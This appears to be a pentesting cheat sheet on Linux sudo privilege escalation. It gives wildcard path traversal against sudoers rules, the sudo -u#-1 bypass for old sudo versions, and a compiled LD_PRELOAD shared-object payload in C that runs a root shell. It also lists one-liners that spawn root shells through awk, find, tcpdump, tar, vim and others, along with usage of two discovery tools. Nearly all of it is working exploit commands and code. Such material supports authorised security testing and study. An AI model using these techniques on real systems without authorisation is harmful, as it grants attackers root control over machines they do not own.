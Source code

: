 # Sudo Exploits

## Wildcard redirection

If a rule inside the sudoers file includes an entry with a wildcard it is possible to redirect the execution to an arbitrary file.&#x20;

```
ubuntu ALL= (root) /bin/nano /var/log/*
```

The wildcard can be used to access any file as follows

```
sudo nano /var/log/../../etc/passwd
```

## Security bypass

Run the following command to execute a binary as root on Sudo version < 1.8.28

```
sudo -u#-1 <command>
```

## LD\_PRELOAD/**LD\_LIBRARY\_PATH**

To exploit this vulnerability one the following strings must be present as a result of `sudo -l`

```
env_keep+=LD_PRELOAD
env_keep+=LD_LIBRARY_PATH
```

To exploit the vulnerability create a simple payload as follows

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD or LD_LIBRARY_PATH");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}
```

Compile the payload using GCC

```
gcc -fPIC -shared -o <output>.so <file>.c -nostartfiles
```

Invoke sudo with the following parameters to execute the payload as root. The executed sudo command is not important, what really matters is to specify the path to the generated payload

```
sudo LD_PRELOAD=<path to .so payload> <command>
sudo LD_LIBRARY_PATH=<path to .so payload> <command>
```

## Spawn elevated shell

The following commands allow to spawn an elevated shell from standard commands running with sudo

```
sudo awk 'BEGIN {system("/bin/sh")}'
sudo find /etc -exec sh -i \;
sudo tcpdump -n -i lo -G1 -w /dev/null -z /bin/sh
sudo tar c a.tar -I /bin/sh a
sudo vim -c '!sh'
ftp>!/bin/sh
less>! <command>
```

## Automated discovery tools

### Fall Of Sudo

Python based program that can aid in identifying misconfiurations and vulnerabilities in sudo. Can be found [here](https://github.com/CyberOne-Security/FallofSudo).

```
python fallofsudo.py -i
```

### SudoKiller

Tool that allows to identify a wide array of vulnerabilities and potential exploits works in both offline and online mode. Can be found [here](https://github.com/TH3xACE/SUDO\_KILLER)

#### Online mode

```
sudo_killer.sh -cer <filename> -p /<dest folder>
sudo_killer.sh -cer <filename> -p /<dest folder> -s <sudo pass>
```

#### Offline mode

Run the following command to generate the offline data set on the target machine. The generate file will be stored under /tmp/sk\_offline.txt

```
extract.sh
```

Execute the following command to start the offline analysis

```
sudo_killer.sh -ci /tmp/sk_offline.txt
sudo_killer.sh -ci /tmp/sk_offline.txt -s <sudo pass>
```
